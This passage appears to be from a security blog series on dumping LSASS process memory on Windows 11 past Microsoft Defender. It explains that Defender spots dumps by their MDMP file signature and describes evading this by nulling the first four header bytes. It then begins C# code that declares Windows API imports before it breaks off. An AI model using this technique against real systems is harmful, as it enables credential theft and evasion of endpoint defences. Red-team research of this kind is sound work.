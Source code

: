 
We see after executing the code that Defender flags the writing of LSASS content to disk before we are able to overwrite the contents of test.txt with the XORed version. This indicates that Defender has the capability to quickly analyze files and determine their malicious nature. But how is it able to determine so quickly that the file is malicious?

To better understand this, I performed a dump without Defender enabled and then transferred test.txt to my Kali box. I then used the command below to analyze the file. 

```bash
xxd -l 256 lsass.dmp
```

![](/assets/posts/2024-06-03-LSASS-Dumping-Windows11-Part2/mdmp_signature.bmp)

When analyzing the dump, we see that the file type at the beginning is MDMP (Windows MiniDump). This is how Windows quickly analyzed the file: it grabbed the file type and then analyzed enough to see it was LSASS content. So, their detection is purely signature-based, which is a common flaw of most security solutions. To bypass this, I will perform the dump on a temporary file, then quickly overwrite the first 4 bytes of the file, which is the file type, with null bytes. Let's see if Defender flags the file after these changes. I have provided the updated code below.



```cs 

using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Text;
using System.IO.MemoryMappedFiles;


class Program
{

    [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]
    static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool LookupPrivilegeValue(string lpSystemName, string lpName, out LUID lpLuid);

    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
```